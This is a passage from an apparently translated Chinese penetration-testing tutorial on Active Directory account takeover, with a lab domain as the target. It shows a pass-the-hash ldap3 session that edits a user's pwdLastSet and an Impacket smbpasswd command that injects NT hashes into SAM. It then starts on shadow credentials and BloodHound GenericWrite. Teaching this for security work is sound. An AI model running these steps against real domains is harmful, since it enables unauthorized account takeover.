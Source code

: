     
    
    # python3  
    >>> import ldap3  
    >>> from ldap3 import ALL, Server, Connection, NTLM, extend, SUBTREE  
    >>> server = ldap3.Server('n00py.local',get_info = ldap3.ALL, port=636, use_ssl = True)  
    >>> user = 'n00py.local\\Administrator'  
    >>> password =’<LM HASH>:<NT HASH>’  
    >>> c = Connection(server, user, password=password, authentication=NTLM)  
    >>> c.bind()  
    True  
    >>> from ldap3 import MODIFY_ADD, MODIFY_REPLACE, MODIFY_DELETE  
    >>> changeUACattribute = {"PwdLastSet":  (MODIFY_REPLACE, ["-1"]) }  
    >>> c.modify('CN=ESTEBAN DA,OU=EMPLOYEES,DC=N00PY,DC=LOCAL', changes=changeUACattribute)  
    True  
    

 **删除过期密码属性**

然后将 esteban_da 帐户设置回其原始配置。

另一个 _Impacket_ PR #1171的工作方式大致相同，但语法略有不同。

    
    
    # python3 smbpasswd.py n00py.local/esteban_da:@n00py.local -newhashes :<ESTEBAN_DA NT HASH> -altuser n00py.local/administrator -althash <ADMINISTRATOR NT HASH> -admin  
       
    Impacket v0.9.24.dev1+20220226.11205.67342473 - Copyright 2021 SecureAuth Corporation  
       
       
    [*] Credentials were injected into SAM successfully.  
    

 **使用 Impacket 重置 NT 哈希并绕过密码历史 PR 1171**

##  奖励：影子凭证

我们是否需要重置 esteban_da 的密码才能控制它？答案实际上是否定的，我们没有。再一次，让我们看一下 _BloodHound_ 图：

![](https://gitee.com/fuli009/images/raw/master/public/20220310170407.png)

BloodHound 攻击路径

我们看到，我们不仅拥有重置密码的权限，而且还拥有 _GenericWrite_ 权限。但是，这是什么意思？如果我们查看 _BloodHound_
滥用信息，它会让我们知道我们也可以执行有针对性的 Kerberoast 攻击。

很好，但这仍然需要我们能够从 Kerberos 票证中恢复明文密码，除非用户密码较弱，否则这是不可能的。

此外， _BloodHound_ 提示并非包罗万象， _BloodHound_ 并不总是向您显示从一个 1
对象到另一个对象的每条可用边。这是因为某些边是隐式的，例如 _GenericAll_ ，这意味着您也有 _GenericWrite_ ，因此列出来是多余的。

如果我们要删除 _GenericWrite_ 并重新运行 _BloodHound_ 集合，我们会看到：

![](https://gitee.com/fuli009/images/raw/master/public/20220310170415.png)
